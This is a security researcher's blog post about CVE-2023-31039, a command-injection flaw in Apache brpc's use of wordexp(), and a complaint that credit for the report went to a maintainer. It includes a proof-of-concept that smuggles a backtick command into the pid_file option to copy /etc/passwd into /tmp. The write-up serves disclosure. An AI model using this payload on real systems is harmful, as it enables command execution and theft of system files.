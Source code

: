 ```yaml
---
title: "CVE-2023-31039: Dont Steal My First CVE"
date: 2023-06-26T17:54:07+07:00
draft: true
iscjklanguage: false
isarchived: false
categories: ["Security Research"]
images: ["https://images.unsplash.com/photo-1501139083538-0139583c060f?w=1920&q=50"]
aliases: []
description: "My first CVE experience and how it was stolen by someone else."
---
```



{{< figure src="https://brpc.apache.org/images/docs/logo.png"  >}}

## Introduction

In the vast landscape of open source software, collaboration and contribution are highly valued. Open source projects rely on the collective efforts of developers around the world to improve and secure their codebases. However, sometimes the lines between collaboration and opportunism can blur, leading to unexpected situations that can leave contributors feeling betrayed. Throughout this blog post, i highlights the importance of ethical behavior within open source communities for responsible disclosure and attribution, emphasizing the need for transparency, acknowledgment, and fair recognition of researcher effort. 

## Vulnerability
Before dive deep into the problem, lets talk about the vulnerability itself. The vulnerability occur at this [method](https://github.com/apache/brpc/blob/eda61e7762bcea98b85410f80a2fa55e2c618845/src/brpc/server.cpp#L1725)
```c
static std::string ExpandPath(const std::string &path) {
    if (path.empty()) {
        return std::string();
    }
    std::string ret;
    wordexp_t p;
    wordexp(path.c_str(), &p, 0);
    CHECK_EQ(p.we_wordc, 1u);
    if (p.we_wordc == 1) {
        ret = p.we_wordv[0];
    }
    wordfree(&p);
    return ret;
}
``` 
As you can see, the project is using `wordexp()` to expand a path. For example if you input path like `~/project/hack` it will translated into `/home/syahrul/project/hack`. According to `wordexp` [manual pages](https://man7.org/linux/man-pages/man3/wordexp.3.html) user supplied input must not contains some character to do command substitution like `${}` or double backtick because the path expansion from `wordexp` is same as the expansion by the shell `sh()`. So if you input path like `~/project/${hack}` it will translated into `/home/syahrul/project/hack` and the `hack` will be executed as a command. This is a critical vulnerability because it can lead to remote code execution. 

Back into the vulnerable code, if we can control the `path` string, we can run any command on system. After tracing the cross reference, the `ExpandPath` method is used by `PutPidFileIfNeeded()`

```c
void Server::PutPidFileIfNeeded() {
    _options.pid_file = ExpandPath(_options.pid_file);
    if (_options.pid_file.empty()) {
        return;
    }
    RPC_VLOG << "pid_file = " << _options.pid_file;
    ....
}
```

And the `_options.pid_file` is user controllable input from `ServerOptions::pid_file`. The example of usage of `ServerOptions::pid_file` is available on the [one of this unit test](https://github.com/apache/brpc/blob/8256f7f0d28169f295a2c34b513993276a93461b/test/brpc_server_unittest.cpp#L1386).

```c
TEST_F(ServerTest, create_pid_file) {
    {
        brpc::Server server;
        server._options.pid_file = "./pid_dir/sub_dir/./.server.pid";
        server.PutPidFileIfNeeded();
        pid_t pid = getpid();
        std::ifstream fin("./pid_dir/sub_dir/.server.pid");
        ASSERT_TRUE(fin.is_open());
        pid_t pid_from_file;
        fin >> pid_from_file;
        ASSERT_EQ(pid, pid_from_file);
    }
    std::ifstream fin("./pid_dir/sub_dir/.server.pid");
    ASSERT_FALSE(fin.is_open());
}
```
Now the vulnerability can exploited by mimic the unit test. The following payload will create a file named `pwned_by_ru1es` on `/tmp` directory.

```c
#include <brpc/server.h>

int main(int argc, char* argv[]) {
    brpc::Server server;
    brpc::ServerOptions options;
    options.pid_file = "`cat /etc/passwd > /tmp/pwned_by_ru1es`";
    if (server.Start(1337, &options) != 0)
    {
        LOG(ERROR) << "Fail to start HttpServer";
        return -1;
    }
    server.RunUntilAskedToQuit();
    return 0;
}
```

i have created the Proof of Concept with docker to reproduce the vulnerability. You can check it [here](https://github.com/sahruldotid/CVEs/tree/main/CVE-2023-31039)

## Reporting

Few days before i found the vulnerability, i stumble upon [this website](https://huntr.dev) that offer you some ability to report a open source security vulnerability to the maintainer. I think this is useful for me because i dont need to find any contact or email of the maintainer. Also this platform is cooperate with MITRE CVE Program to assign CVE ID so that i think this is a good place to report the vulnerability.

Here's the report link : [https://huntr.dev/bounties/c4c8b69e-daf7-4e6b-982b-732936a7d8a4/](https://huntr.dev/bounties/c4c8b69e-daf7-4e6b-982b-732936a7d8a4/)

I reported at 20 April 2023 with all the information like the description, vulnerable code, the PoC, and the impact of the vulnerability. 
![](https://user-images.githubusercontent.com/11147011/248794384-73e2aa35-55e8-490d-a1c2-aa41bf3c9644.png)

After few days, specifically at 24 and 27 April 2023, the maintainer aknowledge and validate my report as valid security vulnerability
![](https://user-images.githubusercontent.com/11147011/248795332-32aa1723-37a2-41a7-9eba-7460e654fce2.png)

Few days without any response, i found that the maintainer released new version of brpc and the vulnerability has been patched within [this commit](https://github.com/apache/brpc/commit/49038448a718f3c5093cc9ebed6e316cf0041cc0)
![](https://user-images.githubusercontent.com/11147011/248796662-26ffe5c6-2380-4c38-a19f-05234f31985b.png)
![](https://user-images.githubusercontent.com/11147011/248797371-956cdec1-f4fb-4e1e-8fad-9d237bb653e4.png)

This is exactly same as the occurence of the vulnerability in my report and the date is obviously after my report. So i think this is a good sign that the maintainer has fixed the vulnerability.
![](https://user-images.githubusercontent.com/11147011/248798665-5f8002bd-d278-4d67-bb2f-c9fd79c69206.png)

Then i contacted the admin of huntr.dev what the status of my report now. One of the admin said that Apache is probably strategically delaying the publication of the vulnerability report. At first place i think maybe i need to wait more. But after few days, i found that the vulnerability has been published on [CVE-2023-31039](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-31039) and [NVD](https://nvd.nist.gov/vuln/detail/CVE-2023-31039) with the date 2021-05-08. 

This CVE date is exactly after i reported this vulnerability and the maintainer didnt event resolve my report at huntr.dev anymore. My patience is running out, through discord DM, i contacted one of the huntr.dev admin and they said: 
![](https://user-images.githubusercontent.com/11147011/248801845-86b6bf09-8e63-480c-852d-be75dfc138f5.png)

Like i was expected, the maintainer didnt even resolve my report at huntr.dev after a week and now admin has to published the vulnerability manually. I think this is not fair for me because i have reported the vulnerability first and the maintainer didnt even resolve my report even they assign the CVE under someone name 🤣. This is a bad practice from the maintainer and i think this is not a good way to treat the security researcher. I also dissapointed because the platform didnt escalate the issue or do anything about it in order to help assign my name under the CVE 😅.

## Timeline
- 2023-04-20: Vulnerability discovered.
- 2023-04-24: Maintainer acknowledge the report.
- 2023-04-27: ASF Security Team validated this vulnerability.
- XXXX-XX-XX: Maintaner fixed the vulnerability.
- XXXX-XX-XX: Assigned CVE but not under my name.
- 2023-05-06: Saw vulnerability has been fixed and i contact the Admin why there's no updates.
- 2023-05-22: Admin replied and said that i need to wait.
- 2023-06-12: Recontact the Admin and ask for updates through DM.
- 2023-06-26: Vulnerability published.

## Conclusion

Well, at the end of the day, i cant do anything about it and just gave up. I hope this writeup can be a lesson for me and for the other security researcher to be more careful when reporting a vulnerability to the maintainer through third party platform.

### Q&A 
- Q: How did you know that the maintainer is stealing your vulnerability
- A: Well after doing some osint, i find out that someone who submit PR is one of maintainer. You can check his email at this [mailing list](https://seclists.org/oss-sec/2023/q2/130) 

Thank you for reading!
